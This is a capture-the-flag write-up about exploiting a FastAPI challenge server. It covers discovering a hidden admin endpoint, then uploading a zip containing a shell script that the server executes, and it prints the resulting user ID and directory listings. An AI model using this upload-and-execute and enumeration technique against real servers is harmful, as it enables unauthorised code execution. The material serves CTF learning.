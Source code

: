 First, you have to go to `/docs` page of this website. There are many ways to get to this point:

1. Read the problem description and notice the keywords "fastest" and "API". You may guess that it is a [FastAPI](https://balsnctf.com/health) server, so it has `/docs` page.
2. Take a look at server's HTTP response header and you will see `server: uvicorn`. [Uvicorn](https://www.uvicorn.org/) along with API server is commonly related to FastAPI framework. So, it has `/docs` page.
3. Use a dictionary to brute-force the path and find `/docs` page. *You should be careful* since some tools with default parameters (such as `dirbuster`) may be regarded as malware behavior by your ISP, which might get yourself banned from accessing your network.

Then, you can find the following content:

<img src="./img1.png" width="800">

Seems like you have found a hidden endpoint which by design should only be accessed by admin. You can use the following snippet to create a testing zip:

```bash
cat > run << EOF
#!/bin/bash
id > status.json 2>&1
pwd >> status.json 2>&1
ls -al . >> status.json 2>&1
ls -al .. >> status.json 2>&1
ls -al ../.. >> status.json 2>&1
EOF

zip test.zip run
```

Then, use the web UI of `/docs` page to upload the zip file, and get the returned `dir_name`, say, `test-209d510faf7d0663`. You can query the content of `status.json` at `/test-209d510faf7d0663` after 30 seconds. The result should be something like:

```
uid=65534(nobody) gid=65534(nogroup) groups=65534(nogroup)
/home/healthcheck/app/data/test-209d510faf7d0663
total 16
drwxrwxrwx 2 healthcheck healthcheck 4096 Sep  7 07:51 .
drwx--x--x 3 healthcheck uploaded    4096 Sep  7 07:50 ..
-rwxrwxrwx 1 healthcheck healthcheck  150 Sep  7 07:50 run
-rw-r--r-- 1 nobody      nogroup      108 Sep  7 07:51 status.json
ls: cannot open directory '..': Permission denied
total 40
drwxrwxr-x 4 healthcheck uploaded 4096 Sep  7 07:45 .
drwx------ 8 healthcheck uploaded 4096 Sep  7 07:44 ..
-rw-r--r-- 1 healthcheck uploaded 2892 Sep  7 07:42 apiserver.py
-rw-r--r-- 1 healthcheck uploaded 2013 Sep  7 07:42 background.py
drwx--x--x 3 healthcheck uploaded 4096 Sep  7 07:50 data
-rw-r--r-- 1 healthcheck uploaded   62 Sep  7 07:42 Dockerfile
-r--r----- 1 healthcheck uploaded   50 Sep  7 07:42 flag1.py
-r--r----- 1 healthcheck uploaded   35 Sep  7 07:42 flag2
-rwx------ 1 healthcheck uploaded  497 Sep  7 07:43 launch.sh
drwxr-xr-x 2 healthcheck uploaded 4096 Sep  7 07:45 __pycache__
```
